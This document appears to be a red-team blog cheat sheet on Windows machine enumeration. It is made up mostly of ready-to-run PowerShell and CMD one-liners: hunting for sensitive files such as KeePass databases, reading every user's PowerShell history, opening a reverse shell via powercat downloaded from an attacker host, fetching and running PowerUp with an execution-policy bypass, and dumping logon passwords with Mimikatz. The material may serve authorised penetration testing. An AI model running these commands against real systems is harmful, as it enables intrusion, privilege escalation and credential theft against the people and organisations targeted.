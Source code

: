 ```yaml
---
title: Windows Machine Enumeration for Red Team
author: "novran"
date: 2024-11-27 00:00:00 +0700
categories: [Windows Pentest]
tags: [Windows Pentest]
mermaid: true
image:
  path: /images/2024-11-27-window-machine-enumeration-for-red-team-banner.png
---
```


## Find Juicy Files

```powershell
# Unfiltered
Get-ChildItem -Path . -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }

# Filterer Extension
Get-ChildItem -Path . -Include *.txt -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }

# Filterer Multiple Extensions
Get-ChildItem -Path . -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.kdbx,*.ini,*.yaml,*.yml,*.xml,*.sql -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }
```

## Reverse Shell

### Invoke-Expression with PowerCat

Download [Powercat v2.0](https://github.com/rexpository/powercat-v2.0).

```
# PowerShell
IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/powercat.ps1');powerrcatt -c <ATTACKER_IP> -p 5555 -e cmd

# CMD
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/powercat.ps1');powerrcatt -c <ATTACKER_IP> -p 5555 -e cmd"
```

## PowerShell History

```powershell
Get-History
(Get-PSReadlineOption).HistorySavePath
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Enumerate All Users via Administrator
```powershell
Get-WmiObject Win32_UserProfile | Where-Object { -not $_.Special -and $_.LocalPath } | ForEach-Object { $file = Join-Path -Path $_.LocalPath -ChildPath "AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"; if (Test-Path $file) { "`n=== History for user: $($_.LocalPath) ===`n"; Get-Content $file } }
```

Script Block Logging.
```powershell
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object { $_.Id -eq 4104 } | Format-List -Property * | Out-File "scriptblocklogs.txt"
```

## Privilege Escalation (Auto)

Download [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```
powershell -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/PowerUp.ps1'); Invoke-AllChecks"
```

## Credential Dump

Download [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest).

```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
```
